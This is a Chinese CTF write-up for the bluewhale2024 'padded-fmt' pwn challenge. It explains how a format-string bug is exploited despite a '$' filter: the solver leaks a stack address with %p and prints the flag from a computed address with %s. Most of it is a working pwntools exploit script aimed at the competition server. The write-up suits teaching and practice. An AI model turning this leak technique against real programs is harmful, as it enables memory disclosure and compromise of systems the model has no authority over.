 ```yaml
---
title: bluewhale2024 - padded-fmt 
date: 2024/5/3 23:08:00
tags:
    - fmt-string
excerpt: 利用格式化字符串漏洞泄露flag，通过推算栈地址并构造特定payload实现。
---
```


{% note %}
李华在学习了格式化字符串漏洞后大受震撼，但他突然想到“对啊，如果我给`%n$p`里的`$`过滤掉，
再配合上一个很大块的空数据让printf随便泄露，不就是个安全的printf了吗！”

于是李华写了下面的这个 demo，看看聪明的你能不能打他的脸
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

程序将flag读到了ctx（栈）上，虽然栈上没有触手可及的的栈地址，但是寄存器里有，
我们就可以推算出ctx的地址，接下来以这个地址用字符串的方式打印就可以获得flag

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './fmt'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20603)
    elf = ELF(EXE)

    sh.sendlineafter(b'name?\n', b'%p,%p,%p,%p,%p,%p,%p')
    rsp = int(sh.recvuntil(b'have', True).decode().split(',')[6], 16)
    success(GOLD_TEXT(f'Leak rsp: {hex(rsp)}'))
    flagAddr = rsp + 0x470
    
    sh.sendlineafter(b'say?\n', (b'%p,'*16 + b'%s').ljust(0x38, b'\0') + p64(flagAddr))
    flag = sh.recvuntil(b'}').decode().split(',')[-1]
    success(f'FLAG is: {flag}')
    sh.close()
```
